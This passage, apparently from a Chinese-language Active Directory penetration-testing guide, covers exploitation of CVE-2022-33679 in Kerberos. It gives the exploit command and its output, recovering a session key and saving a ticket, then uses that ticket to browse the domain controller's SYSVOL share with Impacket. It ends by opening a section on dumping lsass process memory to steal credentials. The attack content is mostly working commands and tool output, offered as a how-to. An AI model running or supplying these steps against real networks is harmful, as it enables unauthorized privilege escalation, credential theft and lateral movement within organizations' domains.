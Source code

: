 ```
2. CVE-2022-33679

该漏洞导致攻击者可请求设置了 "不要求kerberos预身份验证"的用户的TGT票据,
并对AS-REP中加密 session_key 使用的秘钥流进行破解,从而实现权限提升.
```

https://www.horizon3.ai/attack-research/attack-blogs/from-cve-2022-33679-to-unauthenticated-kerberoasting/

```
漏洞利用:

python3 CVE-2022-33679.py blackops.local/fsociety dc.blackops.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT - Retrieving AS-REP
[*] Trying to recover the RC4 Flow
[*] Byte 0: e8
[*] Byte 1: 4f
[*] Byte 2: 67
[*] Byte 3: de
[*] Byte 4: d1
[*] Recovered Session key: ed80fddf85ababababababababababab
[*] Got TGS for dc.blackops.local
[*] Saving ticket in fsociety_dc.blackops.local.ccache

export KRB5CCNAME=fsociety_dc.blackops.local.ccache

python3 /usr/share/doc/python3-impacket/examples/smbclient.py -k -no-pass blackops.local/fsociety@dc.blackops.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Type help for list of commands
# use SYSVOL
# ls
drw-rw-rw-          0  Mon Jun 13 16:29:30 2022 .
drw-rw-rw-          0  Mon Jun 13 16:29:30 2022 ..
drw-rw-rw-          0  Mon Jun 13 16:29:30 2022 blackops.local
```
https://github.com/Bdenneu/CVE-2022-33679.git

### <span style="color:lightgreen">2.2 拥有账户名和密码场景</span>
### <span style="color:#F98B26">2.2.1 本地管理员</span>
### <span style="color:#F98B26">2.2.1.1 Dump lsass</span>

```
凭证转储是攻击者用来破坏基础设施的最常用技术之一.
它允许窃取敏感的凭证信息,并使攻击者能够在目标环境中进一步横向移动.

负责此操作的进程是lsass.exe,我们需要转储lsass进程的内存.
```

